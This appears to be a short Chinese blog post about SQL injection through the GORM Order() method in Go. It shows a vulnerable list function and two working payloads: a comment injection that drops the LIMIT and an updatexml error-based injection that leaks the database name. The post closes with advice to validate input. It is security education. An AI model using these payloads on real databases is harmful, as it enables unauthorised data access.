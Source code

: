 ```yaml
---
title: gorm OrderBy注入
date: 2022-03-15 15:40:41.554
updated: 2022-03-15 15:53:18.187
url: https://p00q.cn/?p=547
categories: 
- 数据库
tags: 
- Go
- MySQL
- gorm
- sql
---
```


# 环境代码
有时为了方便前端排序可能会将`order`作为参数传入，这是不安全的。

虽然gorm有防注入但还是有些方法是没有转义的。
[gorm不安全的方法](https://gorm.io/zh_CN/docs/security.html)

```go
func TestGetList(pageNum, pageSize int, order string) []modle.Test {
	if pageSize == 0 {
		pageSize = 20
	}
	if pageNum == 0 {
		pageNum = 1
	}
	begin := db.GetDB()
	tests := make([]modle.Test, 0)
	err := begin.Model(&modle.Test{}).Order(order).Offset((pageNum - 1) * pageSize).Limit(pageSize).Find(&tests).Error
	if err != nil {
		log.Println(err.Error())
	}

	return tests
}

```

## 爆出符合条件的所有数据
请求：
```
{
    "order":"id;-- "
}
```
执行sql 
```
SELECT * FROM `test` ORDER BY id;--  LIMIT 20
```
返回：符合条件的所有数据

## updatexml
如果有报错回显的话还可能造成更多泄露
请求：
```
{
    "order":"updatexml(1,if(1=2,1,concat(0x7e,database(),0x7e)),1)"
}
```
日志：
```
Error 1105: XPATH syntax error: '~test~'
```
# 建议
在使用前校验参数